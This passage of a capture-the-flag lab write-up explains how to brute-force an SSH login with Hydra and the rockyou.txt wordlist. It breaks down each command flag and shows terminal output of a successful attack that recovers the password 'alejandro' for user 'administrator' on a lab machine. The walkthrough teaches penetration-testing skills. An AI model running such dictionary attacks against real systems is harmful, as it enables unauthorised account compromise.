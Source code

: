 **Preparation**

It's advisable that you exit Metasploit to continue the exploitation of this section of the room. Secondly, it's useful to keep a note of the information you gathered during the enumeration stage, to aid in the exploitation.

**Hydra**

There is a wide array of customisability when it comes to using Hydra, and it allows for adaptive password attacks against of many different services, including SSH. Hydra comes by default on both Parrot and Kali, however if you need it, you can find the GitHub here.

Hydra uses dictionary attacks primarily, both Kali Linux and Parrot OS have many different wordlists in the "/usr/share/wordlists" directory- if you'd like to browse and find a different wordlists to the widely used "rockyou.txt". Likewise I recommend checking out SecLists for a wider array of other wordlists that are extremely useful for all sorts of purposes, other than just password cracking. E.g. subdomain enumeration

The syntax for the command we're going to use to find the passwords is this: "`hydra -t 16 -l USERNAME -P /usr/share/wordlists/rockyou.txt -vV 10.10.72.209 ssh`"

Let's break it down:

| SECTION        | FUNCTION                                                                             |
| -------------- | ------------------------------------------------------------------------------------ |
| hydra          | Runs the hydra tool                                                                  |
| -t 16          | Number of parallel connections per target                                            |
| -l [user]      | Points to the user who's account you're trying to compromise                         |
| -P             | [path to dictionary] Points to the file containing the list of possible passwords    |
| -vV            | Sets verbose mode to very verbose, shows the login+pass combination for each attempt |
| [machine IP]   | The IP address of the target machine                                                 |
| ssh / protocol | Sets the protocol                                                                    |

Looks like we're ready to rock n roll!

What is the password of the user we found during our enumeration stage?

```
bibo318@parrot:~/CTFs/tryhackme/Network Services 2$ hydra -t 16 -l administrator -P /usr/share/wordlists/rockyou.txt -vV 10.10.72.209 ssh
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-13 17:51:59
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.72.209:22/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://administrator@10.10.72.209:22
[INFO] Successful, password authentication is supported by ssh://10.10.72.209:22
[22][ssh] host: 10.10.72.209   login: administrator   password: alejandro
[STATUS] attack finished for 10.10.72.209 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-11-13 17:52:55
```

